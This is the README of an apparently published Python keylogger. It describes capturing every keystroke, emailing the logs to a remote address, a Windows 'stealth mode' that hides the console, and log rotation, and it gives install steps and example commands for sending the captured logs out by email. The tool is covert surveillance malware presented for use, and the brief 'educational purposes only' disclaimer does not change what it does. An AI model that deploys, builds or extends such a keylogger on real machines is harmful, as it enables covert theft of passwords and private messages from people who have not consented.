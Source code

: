 # 🖥️ Simple Keylogger

A lightweight and feature-rich keylogger developed in Python by **Ayush Thakur (Hunter001x)**. This tool logs keystrokes, supports email notifications, log rotation, stealth mode, and customizable hotkeys.

---

## ✨ Features

1. **🖊️ Keystroke Logging**: Logs all keystrokes to a specified file.
2. **📧 Email Notifications**: Automatically sends the log file to a specified email address.
3. **🕵️ Stealth Mode**: Hides the console window for discreet operation (Windows only).
4. **🎛️ Customizable Hotkey**: Allows users to define a hotkey to stop the keylogger.
5. **⏰ Timestamps**: Adds timestamps to each logged keystroke.
6. **⚙️ Error Handling**: Handles errors gracefully during logging.
7. **🌐 Cross-Platform**: Works on Windows, macOS, and Linux.
8. **🔄 Log Rotation**: Automatically rotates the log file when it exceeds 1 MB.
9. **🚫 Excluded Keys**: Skips logging of specific keys like `Shift`, `Ctrl`, `Alt`, and `Cmd`.

---

## 📋 Requirements

- **Python**: Version 3.6 or higher
- **Required Libraries**:
  - `pynput`
  - `argparse`
  - `smtplib`

Install dependencies using:
```bash
pip install pynput
```

---

## 🚀 Usage

### 🏁 Running the Keylogger

1. **Clone the Repository**:
   ```bash
   git clone https://github.com/aayushthakur001/Simple-Keylogger.git
   cd Simple-Keylogger
   ```

2. **Run the Script**:
   ```bash
   python keylogger.py
   ```

   ## Banner
The tool displays the following banner upon execution:
 ```
_  __          _                                      
| |/ /___ _   _| | ___  ___ ___  _ __   ___ _ __  _   _ 
| ' // _ \ | | | |/ _ \/ __/ _ \| '_ \ / _ \ '_ \| | | |
| . \  __/ |_| | |  __/ (_| (_) | | | |  __/ | | | |_| |
|_|\_\___|\__,_|_|\___|\___\___/|_| |_|\___|_| |_|\__,_|
=================================================================
    Simple Keylogger – Developed by: Ayush Thakur (Hunter001x)
            GitHub: https://github.com/aayushthakur001
=================================================================
```
3. **Customize Behavior**: Use the available arguments to modify the keylogger's functionality.

---

### ⚙️ Command-Line Arguments

| Argument             | Description                                                                                  | Default Value       |
|-----------------------|----------------------------------------------------------------------------------------------|---------------------|
| `--output`           | Output file to save keystrokes.                                                              | `key_log.txt`       |
| `--email`            | Recipient email to send logs.                                                                | None                |
| `--sender_email`     | Sender email for sending logs.                                                               | None                |
| `--sender_password`  | Sender email password.                                                                       | None                |
| `--hotkey`           | Hotkey to stop the keylogger.                                                                | `<esc>`             |
| `--stealth`          | Run in stealth mode (no console output).                                                     | Disabled            |

---

### 🛠️ Example Commands

1. **Basic Usage**:
   ```bash
   python keylogger.py
   ```

2. **Send Logs via Email**:
   ```bash
   python keylogger.py --email recipient@example.com --sender_email sender@example.com --sender_password yourpassword
   ```

3. **Run in Stealth Mode**:
   ```bash
   python keylogger.py --stealth
   ```

4. **Custom Hotkey**:
   ```bash
   python keylogger.py --hotkey "<ctrl>+<alt>+s"
   ```

---

### 🛑 Stopping the Keylogger

Press the defined hotkey (default: `<esc>`) to stop the keylogger. Upon stopping, the log file will be sent via email (if configured).

---

## 🛡️ How It Works

1. **Keystroke Logging**: Captures keystrokes using the `pynput` library and writes them to a log file.
2. **Email Notifications**: Sends the log file to the recipient email using the `smtplib` library.
3. **Stealth Mode**: Hides the console window on Windows using the `ctypes` library.
4. **Log Rotation**: Renames the log file with a timestamp when it exceeds 1 MB.
5. **Custom Hotkey**: Uses `keyboard.GlobalHotKeys` to listen for a user-defined hotkey to stop the keylogger.

---

## 🔒 Security and Privacy

This tool is intended for **educational purposes only**. Use it responsibly and ensure you have proper authorization before deploying it on any system.

---

## ⚠️ Disclaimer

The author is **not responsible** for any misuse of this tool. Use it at your own risk.

---

## 🤝 Contributing

Contributions are welcome! Feel free to fork the repository and submit a pull request.

---

## 📜 License

This project is licensed under the **MIT License**. See the [LICENSE](LICENSE) file for details.

---

## 👨‍💻 Author

Developed by **Ayush Thakur (Hunter001x)**  
GitHub: [https://github.com/aayushthakur001](https://github.com/aayushthakur001)

---
